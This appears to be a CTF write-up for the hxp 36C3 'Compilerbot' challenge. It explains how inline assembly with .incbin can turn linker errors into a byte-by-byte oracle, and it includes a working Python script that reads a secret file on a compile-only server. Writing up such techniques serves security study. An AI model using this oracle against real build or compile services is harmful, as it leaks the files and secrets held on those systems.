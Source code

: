 ```yaml
---
title: hxp 36C3 CTF - Compilerbot
authors: Ryan Govostes (rgov)
date: 2019-12-28
categories: misc
---
```



The server for this challenge accepts C source code and compiles it into an executable using Clang. Our objective is to recover the contents of the flag file, *but our code is never executed*. The server only tells us whether the compilation was successful and produced no warnings.

The server's response could serve as an oracle if we are able to guess part of the flag and make the compilation fail or emit a warning if our guess is incorrect.

We can throw out any approach that involves `#include "flag"` because the flag is likely not valid C code, and you [cannot abuse the preprocessor to create a string from the contents of a file](https://stackoverflow.com/questions/1246301/c-c-can-you-include-a-file-into-a-string-literal).

A better starting point is to use inline assembly and the the [`.incbin`](https://sourceware.org/binutils/docs/as/Incbin.html#Incbin) assembler directive, which includes the given file, or a portion of it, verbatim in the binary. (We first learned about this from write-ups of the [Oneline Calc](https://ctftime.org/task/9149) challenge from TokyoWesterns CTF 2019.)

When we use `.incbin`, the file contents are not embedded until the assembler stage, so we aren't going to be able to trigger an error dependent on the content of the flag before this stage (or during it).

The last stage, linking, follows the assembler. It transforms the object file produced by the assembler into an executable. This is the stage we should target: we want to produce an object file that the linker either accepts or rejects based on the contents of the flag.

To do this, we need to look at structures in the object file that the linker uses. There are a number of special sections (see [`elf(5)`](http://man7.org/linux/man-pages/man5/elf.5.html), under "Section header") which hold control information used by the linker; if one of these sections is invalid, it may cause a linker error.

For example, the GNU `ld` linker creates a lookup table from [`.eh_frame`](https://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-PDA/LSB-PDA/ehframechpt.html) sections, and if one of them is not correctly formed, the table generation will fail. We can create a valid section manually with inline assembly:

```c
// create a dummy a Call Frame Information record 
__asm__(
    ".pushsection .eh_frame\n"

    // length of CIE record
    ".long 0x0000000D\n"

    // CIE fields
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".popsection\n"
);
```

Since the record contains a length field, we could corrupt the `.eh_frame` by providing a length that is too long or too short, causing the linker to read garbage when it scans the next record. For instance, we could read one byte of the flag file into the least-significant byte of the record length:

```c
    // length of CIE record
    ".incbin \"flag\", 0, 1\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
```

If the first byte of the flag has value 13 (carriage return), then the record length is correct and there will be no linker error. But for any other value, we get:

    /usr/bin/ld: error in /tmp/test-a17b24.o(.eh_frame); no .eh_frame_hdr table will be created

(Note that the compilation technically succeeds but the challenge server considers any message written to standard error as a failure.)

This can be used as our oracle. To test if the first byte is some value *other* than 13, we just need to pad the end of the struct:

```c
    // pad extra bytes; linking will succeed if the first byte of the flag
    // is 97 (ASCII 'a')
    ".rept 97 - 13\n"
    ".byte 0\n"
    ".endr\n"
```

Now we can adjust the amount of padding to change the record size until the linker stops complaining, which indicates that the record size is consistent with its length field, and therefore that the record size equals the value of the first byte of the flag.

This can be repeated for the next byte until the entire flag is recovered.


## Exploit

Thanks to Sophia d'Antoine for fixing an oversight in my exploit code.

```python
#!/usr/bin/env python
import subprocess


payload = r'''
__asm__ (
    ".pushsection .eh_frame\n"

    // length of CIE record, using one byte from flag
    // length must be at least 13
    ".incbin \"flag\", __OFFSET__, 1\n"
    ".rept 3\n"
    ".byte 0\n"
    ".endr\n"

    // 13 bytes of CIE record junk
    // http://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-Core-generic/LSB-Core-generic/ehframechpt.html
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".rept __GUESS__ - 13\n"
    ".byte 0\n"
    ".endr\n"

    ".popsection\n"
);
'''


# this runs the compiler locally, running against the challenge server is left
# as an exercise to the reader
def try_compile(code):
    code = 'int main(void) { ' + code + ' }'
    sub = subprocess.Popen(['clang', '-x', 'c', '-o', '/dev/null', '-'],
                           stdin=subprocess.PIPE,
                           stdout=subprocess.PIPE,
                           stderr=subprocess.STDOUT)
    stdout, _ = sub.communicate(code)
    return sub.returncode == 0 and stdout.strip() == ''


# test first
code = payload
code = code.replace(r'".incbin \"flag\", __OFFSET__, 1\n"',
                    r'".byte 0x20\n"')
code = code.replace('__GUESS__', '0x20')
assert try_compile(code)


# recover the flag
flag = ''
for flag_offset in range(32):
    for guess in range(0x20, 0x7f):
        code = payload
        code = code.replace('__GUESS__', str(guess))
        code = code.replace('__OFFSET__', str(flag_offset))
        if try_compile(code):
            flag += chr(guess)
            break
    else:
        # no guess worked, maybe end of the flag
        break

print('flag is', flag)
```


## Bonus 

Due to an oversight, I initially implemented this exploit against GCC and found a slightly different oracle:

I created a dummy section of a certain number of bytes, and a [relocation entry](https://refspecs.linuxbase.org/elf/gabi4+/ch4.reloc.html) that would increment the byte at a given offset.

GCC, but not Clang, will apply the relocation by the time the final executable is linked. (If you can make this work with Clang, please let me know.)

If the relocation entry's offset is beyond the bounds of the dummy section, the linker complains:

    /usr/bin/ld: /tmp/ccQDGoK1.o(.foo+0x10): reloc against `*UND*': error 4
    /usr/bin/ld: final link failed: nonrepresentable section on output
    collect2: error: ld returned 1 exit status

We can apply the same general idea as above: use `.incbin` to read a byte of the flag into the relocation entry's offset, and adjust the size of the dummy section according to our guess.

```c
__asm__ (
    // create a section of N bytes
    ".pushsection .foo\n"
    ".rept 97\n"
    ".byte 0xFF\n"
    ".endr\n"
    ".popsection\n"
    
    // create a relocation that tries to modify our section at some offset
    // based on a single byte of the flag; if it is out of bounds then the
    // linker will error
    ".pushsection .rela.foo\n"
    ".align 1\n"

    // offset into .foo -- must not overflow !
    ".incbin \"flag\", 0, 1\n"
    ".rept 7\n"
    ".byte 0\n"
    ".endr\n"

    ".quad 0x000000000000000E\n" // type of reloc: R_X86_64_8
    ".quad 0x0000000000000001\n" // value to add at that offset
    ".popsection\n"
);
```
